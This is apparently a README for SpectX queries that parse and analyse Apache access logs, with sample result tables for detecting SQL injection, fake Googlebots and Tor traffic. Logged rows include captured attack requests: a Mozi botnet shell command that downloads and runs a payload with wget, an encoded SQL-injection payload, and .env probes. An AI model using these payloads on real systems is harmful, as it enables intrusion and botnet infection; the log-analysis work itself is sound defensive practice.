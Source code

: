 ### ./view/view_single_file.sx
```jsx
LIST('file:/data/logs/web/access.log')
| parse(pattern:$[./apache_access_log.sxp])
```

| clientIp          | host            | ident  | auth   | timestamp                       | verb | uri                | httpversion | invalidRequest | response | bytes | referrer                  | agent                                                                                                          | extra  |
|-------------------|-----------------|--------|--------|---------------------------------|------|--------------------|------------:|----------------|---------:|------:|---------------------------|----------------------------------------------------------------------------------------------------------------|--------|
| `96.126.103.73`   | 96.126.103.73   | *null* | *null* | `2020‑06‑01 06:22:30.000 +0300` | GET  | /                  |         1.1 | *null*         |      200 |   238 | ‑                         | Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/66.0.3359.117 Safari/537.36 | *null* |
| `134.119.218.243` | 134.119.218.243 | *null* | *null* | `2020‑06‑01 07:01:30.000 +0300` | GET  | /                  |         1.1 | *null*         |      200 |   257 | http://www.ifconfig.co.uk | Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.116 Safari/537.36  | *null* |
| `162.243.143.216` | 162.243.143.216 | *null* | *null* | `2020‑06‑01 07:42:43.000 +0300` | GET  | /manager/text/list |         1.1 | *null*         |      404 |   437 | ‑                         | Mozilla/5.0 zgrab/0.x                                                                                          | *null* |
....

### ./view/view_indexed_by_pathtime.sx
```cs
INIT(from:now()[-14 day], to:now());
// from other scripts: @[/path/to/this/view/view_indexed_by_pathtime.sx](from:now()[-2 hour], to:now())

LIST(src:'sas://remote/logs/apache/$yyyy$/$MM$/$dd$/$yyyy$-$MM$-$dd$_*access.log', _tz:'GMT')
| filter_out(file_name like '%intranet_access.log' OR file_name like '%sports_club_access.log')
| filter(path_time BETWEEN $from[-1 day] AND $to)
| parse(pattern:$[./apache_access_log.sxp])
| filter(timestamp BETWEEN $from AND $to)
```

| clientIp         | host           | ident  | auth   | timestamp                       | verb | uri          | httpversion | invalidRequest | response | bytes | referrer | agent       | extra  |
|------------------|----------------|--------|--------|---------------------------------|------|--------------|------------:|----------------|---------:|------:|----------|-------------|--------|
| `34.239.156.212` | 34.239.156.212 | *null* | *null* | `2020‑07‑29 17:25:01.000 +0300` | GET  | /            |         1.1 | *null*         |      200 |  2120 | ‑        | curl/7.69.1 | *null* |
| `34.239.156.212` | 34.239.156.212 | *null* | *null* | `2020‑07‑29 17:37:21.000 +0300` | GET  | /config/.env |         1.1 | *null*         |      404 |   437 | ‑        | curl/7.69.1 | *null* |
| `34.239.156.212` | 34.239.156.212 | *null* | *null* | `2020‑07‑29 17:50:14.000 +0300` | GET  | /config/.env |         1.1 | *null*         |      404 |  2320 | ‑        | curl/7.69.1 | *null* |
....

### ./query_clientip_metainfo.sx
```jsx
@[./view/view_default.sx]
| select(clientIp, cc(clientIp), asname(clientIp), geo(clientIp), *)
```

| clientIp          | cc | asname                          | geo               | host            | ident  | auth   | timestamp                       | verb | uri                                                                                           | httpversion | invalidRequest | response | bytes | referrer                  | agent                                                                                                               | extra  |
|-------------------|----|---------------------------------|-------------------|-----------------|--------|--------|---------------------------------|------|-----------------------------------------------------------------------------------------------|------------:|----------------|---------:|------:|---------------------------|---------------------------------------------------------------------------------------------------------------------|--------|
| `96.126.103.73`   | US | AS63949 Linode, LLC             | 37.5625,‑122.0004 | 96.126.103.73   | *null* | *null* | `2020‑06‑01 06:22:30.000 +0300` | GET  | /                                                                                             |         1.1 | *null*         |      200 |   238 | ‑                         | Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/66.0.3359.117 Safari/537.36      | *null* |
| `134.119.218.243` | DE | AS29066 Host Europe GmbH        | 51.2993,9.491     | 134.119.218.243 | *null* | *null* | `2020‑06‑01 07:01:30.000 +0300` | GET  | /                                                                                             |         1.1 | *null*         |      200 |   257 | http://www.ifconfig.co.uk | Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.116 Safari/537.36       | *null* |
| `162.243.143.216` | US | AS14061 DIGITALOCEAN‑ASN        | 37.7353,‑122.3732 | 162.243.143.216 | *null* | *null* | `2020‑06‑01 07:42:43.000 +0300` | GET  | /manager/text/list                                                                            |         1.1 | *null*         |      404 |   437 | ‑                         | Mozilla/5.0 zgrab/0.x                                                                                               | *null* |
| `134.119.218.243` | DE | AS29066 Host Europe GmbH        | 51.2993,9.491     | 134.119.218.243 | *null* | *null* | `2020‑06‑01 07:52:36.000 +0300` | GET  | /                                                                                             |         1.1 | *null*         |      200 |   257 | http://www.ifconfig.co.uk | Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.116 Safari/537.36       | *null* |
| `185.172.111.210` | NL | AS206898 Server Hosting Pty Ltd | 52.3824,4.8995    | 185.172.111.210 | *null* | *null* | `2020‑06‑01 08:05:34.000 +0300` | POST | /GponForm/diag_Form?style/                                                                    |         1.1 | *null*         |      404 |  1989 | ‑                         | curl/7.3.2                                                                                                          | *null* |
| `223.149.176.156` | CN | AS4134 Chinanet                 | 25.2239,112.1703  | 223.149.176.156 | *null* | *null* | `2020‑06‑01 08:10:23.000 +0300` | GET  | /shell?cd+/tmp;rm+‑rf+*;wget+http://192.168.1.1:8088/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws |         1.1 | *null*         |      404 |   493 | ‑                         | Hello, world                                                                                                        | *null* |
...

### ./query_by_keyword.sx
```jsx
@[./view/view_default.sx]
| filter(_raw_text like '%union select%')
```

| clientIp         | host           | ident  | auth   | timestamp                       | verb | uri                       | httpversion | invalidRequest | response | bytes | referrer                                                                                                                                                                                                                                                                            | agent                                                                         | extra  |
|------------------|----------------|--------|--------|---------------------------------|------|---------------------------|------------:|----------------|---------:|------:|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|-------------------------------------------------------------------------------|--------|
| `175.126.145.10` | 175.126.145.10 | *null* | *null* | `2020‑06‑04 02:39:27.000 +0300` | POST | /%75%73%65%72%2e%70%68%70 |         1.1 | *null*         |      404 |   492 | 554fcae493e564ee0dc75bdf2ebf94caads\|a:3:{s:2:"id";s:3:"'/*";s:3:"num";s:141:"*/ union select 1,0x272F2A,3,4,5,6,7,8,0x7b247b24524345275d3b6469652f2a2a2f286d6435284449524543544f52595f534550415241544f5229293b2f2f7d7d,0‑‑";s:4:"name";s:3:"ads";}554fcae493e564ee0dc75bdf2ebf94ca | Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:28.0) Gecko/20100101 Firefox/28.0 | *null* |
| `106.54.4.180`   | 106.54.4.180   | *null* | *null* | `2020‑06‑05 12:38:07.000 +0300` | POST | /%75%73%65%72%2e%70%68%70 |         1.1 | *null*         |      404 |   492 | 554fcae493e564ee0dc75bdf2ebf94caads\|a:3:{s:2:"id";s:3:"'/*";s:3:"num";s:141:"*/ union select 1,0x272F2A,3,4,5,6,7,8,0x7b247b24524345275d3b6469652f2a2a2f286d6435284449524543544f52595f534550415241544f5229293b2f2f7d7d,0‑‑";s:4:"name";s:3:"ads";}554fcae493e564ee0dc75bdf2ebf94ca | Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:52.0) Gecko/20100101 Firefox/52.0 | *null* |
| `45.83.254.66`   | 45.83.254.66   | *null* | *null* | `2020‑06‑09 14:54:21.000 +0300` | POST | /%75%73%65%72%2e%70%68%70 |         1.1 | *null*         |      404 |   492 | 554fcae493e564ee0dc75bdf2ebf94caads\|a:3:{s:2:"id";s:3:"'/*";s:3:"num";s:141:"*/ union select 1,0x272F2A,3,4,5,6,7,8,0x7b247b24524345275d3b6469652f2a2a2f286d6435284449524543544f52595f534550415241544f5229293b2f2f7d7d,0‑‑";s:4:"name";s:3:"ads";}554fcae493e564ee0dc75bdf2ebf94ca | Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0  | *null* |
...


### ./query_hits_by_status_range.sx
```jsx
@[./view/view_default.sx]
| select(
  day:timestamp[1 day],
  total:count(*),
  status_200:count(response=200),
  status_1xx:count(response between 100 and 199),
  status_2xx:count(response between 200 and 299),
  status_3xx:count(response between 300 and 399),
  status_4xx:count(response between 400 and 499),
  status_5xx:count(response between 500 and 599)
)
| group(day)
| select(*, fail_4xx_ratio:ROUND(10000.0*status_4xx/total)/100.0)
```

| day                             | total | status_200 | status_1xx | status_2xx | status_3xx | status_4xx | status_5xx | fail_4xx_ratio |
|---------------------------------|------:|-----------:|-----------:|-----------:|-----------:|-----------:|-----------:|---------------:|
| `2020‑06‑01 00:00:00.000 +0300` |    70 |         44 |          0 |         44 |          0 |         26 |          0 |          37.14 |
| `2020‑06‑02 00:00:00.000 +0300` |   148 |         99 |          0 |         99 |          0 |         49 |          0 |          33.11 |
| `2020‑06‑03 00:00:00.000 +0300` |   114 |         88 |          0 |         88 |          0 |         26 |          0 |          22.81 |
| `2020‑06‑04 00:00:00.000 +0300` |  1091 |         80 |          0 |         80 |          0 |       1010 |          1 |          92.58 |
| `2020‑06‑05 00:00:00.000 +0300` |  1098 |        101 |          0 |        101 |          0 |        996 |          1 |          90.71 |
...

### ./query_top_countries.sx
```jsx
@[./view/view_default.sx]
| select(count(*), cc(clientIp))
| group(cc)
| sort(count desc)
```

| count | cc |
|------:|----|
|  4743 | CN |
|  4165 | US |
|  1937 | RU |
|  1837 | TW |
|  1115 | GB |
...

### ./query_find_fake_google_bots.sx
```jsx
@[./view/view_default.sx]
| filter(
     agent like '%Googlebot/%'
  or agent like 'AdsBot-Google/%'
  or agent like '%AdsBot-Google-Mobile;%'
  or agent like '%Google-Ads-Overview%'
)
| filter_out(ASN(clientIp) = 15169) // AS15169 GOOGLE
| select(asname(clientIp), geo(clientIp), cc(clientIp), agent, *)
```

| asname                      | geo            | cc | agent                                                                    |   asn | clientIp       | host         | ident  | auth   | timestamp                       | verb | uri      | httpversion | invalidRequest | response | bytes | referrer | extra  |
|-----------------------------|----------------|----|--------------------------------------------------------------------------|------:|----------------|--------------|--------|--------|---------------------------------|------|----------|------------:|----------------|---------:|------:|----------|--------|
| AS64425 SKB Enterprise B.V. | 52.3759,4.8975 | NL | Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html) | 64425 | `5.182.210.16` | 5.182.210.16 | *null* | *null* | `2020‑08‑07 15:44:40.000 +0300` | GET  | /api.php |         1.1 | *null*         |      404 |   437 | ‑        | *null* |

### ./query_top_response_len.sx
```jsx
@[./view/view_default.sx]
| select(timestamp, clientIp, verb, bytes, uri, *)
| sort(bytes desc)
| limit(50)
```

| timestamp                       | clientIp         | verb   |      bytes | uri                    | host           | ident  | auth   | httpversion | invalidRequest | response | referrer | agent                                                                        | extra  |
|---------------------------------|------------------|--------|-----------:|------------------------|----------------|--------|--------|------------:|----------------|---------:|----------|------------------------------------------------------------------------------|--------|
| `2020‑06‑04 23:43:13.000 +0300` | `183.83.145.187` | GET    | 6529322873 | /secret1337/backup.tgz | 183.83.145.187 | *null* | *null* |         1.1 | *null*         |      200 | ‑        | Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:62.0) Gecko/20100101 Firefox/62.0 | *null* |
| `2020‑06‑13 20:36:48.000 +0300` | `172.105.89.161` | GET    |  239233441 | /secret1337/mysql.sql  | 172.105.89.161 | *null* | *null* |         1.1 | *null*         |      200 | ‑        | Mozilla/5.0 zgrab/0.x                                                        | *null* |
| `2020‑06‑25 20:22:14.000 +0300` | `217.18.21.2`    | *null* |       3681 | *null*                 | 217.18.21.2    | *null* | *null* |      *null* | ‑              |      408 | ‑        | ‑                                                                            | *null* |
| `2020‑06‑25 15:59:32.000 +0300` | `90.191.124.115` | *null* |       3665 | *null*                 | 90.191.124.115 | *null* | *null* |      *null* | ‑              |      408 | ‑        | ‑                                                                            | *null* |
| `2020‑08‑09 02:39:27.000 +0300` | `223.205.236.82` | *null* |       3665 | *null*                 | 223.205.236.82 | *null* | *null* |      *null* | ‑              |      408 | ‑        | ‑                                                                            | *null* |
...

### ./join_with_tor_exit_nodes.sx
```jsx
@[./view/view_default.sx]
| leftjoin(@[../tor_exit_nodes/view_cached.sx] ON left.clientIp = right.tor_ip)
| filter(tor_ip is not null)
| select(tor_ip, tor_time, tor_id, *)
```

| tor_ip            | tor_time                        | tor_id                                   | clientIp          | host            | ident  | auth   | timestamp                       | verb | uri                       | httpversion | invalidRequest | response | bytes | referrer | agent                                                                                                              | extra  |
|-------------------|---------------------------------|------------------------------------------|-------------------|-----------------|--------|--------|---------------------------------|------|---------------------------|------------:|----------------|---------:|------:|----------|--------------------------------------------------------------------------------------------------------------------|--------|
| `185.220.102.6`   | `2020‑08‑12 13:23:50.000 +0300` | A2DB293FFC5A76A718863BF1AEDBC8DFB1CB1097 | `185.220.102.6`   | 185.220.102.6   | *null* | *null* | `2020‑06‑09 07:01:29.000 +0300` | POST | /cgi‑bin/mainfunction.cgi |         1.1 | *null*         |      404 |   437 | ‑        | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36 | *null* |
| `185.220.102.6`   | `2020‑08‑12 12:57:46.000 +0300` | A2534EF23390CAE079B1586F0FDF9CE11F556062 | `185.220.102.6`   | 185.220.102.6   | *null* | *null* | `2020‑06‑09 07:01:29.000 +0300` | POST | /cgi‑bin/mainfunction.cgi |         1.1 | *null*         |      404 |   437 | ‑        | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36 | *null* |
| `178.165.72.177`  | `2020‑08‑12 12:51:05.000 +0300` | 3994E734DCD794479D1A60F4ABD3FC91CAA395EE | `178.165.72.177`  | 178.165.72.177  | *null* | *null* | `2020‑06‑16 00:31:12.000 +0300` | GET  | /                         |         1.1 | *null*         |      200 |  1813 | ‑        | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36 | *null* |
| `178.165.72.177`  | `2020‑08‑12 12:51:05.000 +0300` | 3994E734DCD794479D1A60F4ABD3FC91CAA395EE | `178.165.72.177`  | 178.165.72.177  | *null* | *null* | `2020‑06‑16 00:31:12.000 +0300` | GET  | /                         |         1.1 | *null*         |      200 |   520 | ‑        | Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36 | *null* |
| `185.220.101.203` | `2020‑08‑12 13:06:15.000 +0300` | C8F6F6C1834454F1E927A4A05E8E54EB623D4B73 | `185.220.101.203` | 185.220.101.203 | *null* | *null* | `2020‑06‑19 20:26:05.000 +0300` | GET  | /async/                   |         1.1 | *null*         |      404 |   493 | ‑        | Mozilla/5.0 (Windows ME 4.9; rv:31.0) Gecko/20100101 Firefox/31.7                                                  | *null* |
...

---------
<a href="https://www.spectx.com"><img src="https://docs.spectx.com/v2/_static/assets/spectx-dark-logo.svg" alt="SpectX"/></a>